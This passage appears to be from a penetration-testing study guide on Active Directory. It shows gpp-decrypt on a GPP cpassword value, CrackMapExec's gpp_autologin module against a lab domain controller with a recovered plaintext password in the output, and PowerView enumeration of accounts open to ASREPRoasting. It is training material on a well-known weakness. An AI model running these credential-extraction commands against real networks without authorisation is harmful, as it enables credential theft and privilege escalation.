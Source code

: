 This was patched in 2014 [MS14-025 Vulnerability in GPP could allow elevation of privilege](https://support.microsoft.com/en-us/topic/ms14-025-vulnerability-in-group-policy-preferences-could-allow-elevation-of-privilege-may-13-2014-60734e15-af79-26ca-ea53-8cd617073c30), to prevent administrators from setting passwords using GPP. The patch does not remove existing Groups.xml files with passwords from SYSVOL. If you delete the GPP policy instead of unlinking it from the OU, the cached copy on the local computer remains.

In older Windows environments like Server 2003 and 2008, the XML file stores encrypted AES passwords in the “cpassword” parameter that can get decrypted with Microsoft’s public AES key (link). If you retrieve the cpassword value more manually, the `gpp-decrypt` utility can be used to decrypt the password as follows:

```bash
gpp-decrypt VPe/o9YRyz2cksnYRbNeQj35w9KxQ5ttbvtRaAVqxaE
```

Locating & Retrieving GPP Passwords with CrackMapExec

```shell-session
crackmapexec smb -L | grep gpp
```

To access the GPP information and decrypt its stored password using CrackMapExec, we can use 2 modules — `**gpp_password**` and `**gpp_autologin**` modules. The `**gpp_password**` decrypts passwords stored in the Group.xml file, while `**gpp_autologin**` retrieves autologin information from the Registry.xml file in the preferences folder.


```bash
crackmapexec smb $domainControllerIP -u $user -p $password -M gpp_autologin
# Example:
# crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M gpp_autologin
```

Results:
```
GPP_AUTO... 172.16.5.5      445    ACADEMY-EA-DC01  Usernames: ['guarddesk']
GPP_AUTO... 172.16.5.5      445    ACADEMY-EA-DC01  Domains: ['INLANEFREIGHT.LOCAL']
GPP_AUTO... 172.16.5.5      445    ACADEMY-EA-DC01  Passwords: ['ILFreightguardadmin!']
```

### 💡 ASREPRoasting

It's possible to obtain the Ticket Granting Ticket (TGT) for any account that has the Do not require Kerberos pre-authentication setting enabled. 

ASREPRoasting is similar to Kerberoasting, but it involves attacking the AS-REP instead of the TGS-REP. An SPN is not required. This setting can be enumerated with PowerView or built-in tools such as the PowerShell AD module.

#### DONT_REQ_PREAUTH Value using Get-DomainUser

Enumerating for DONT_REQ_PREAUTH Value using Get-DomainUser

```powershell
Import-Module .\PowerView.ps1
Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl
```
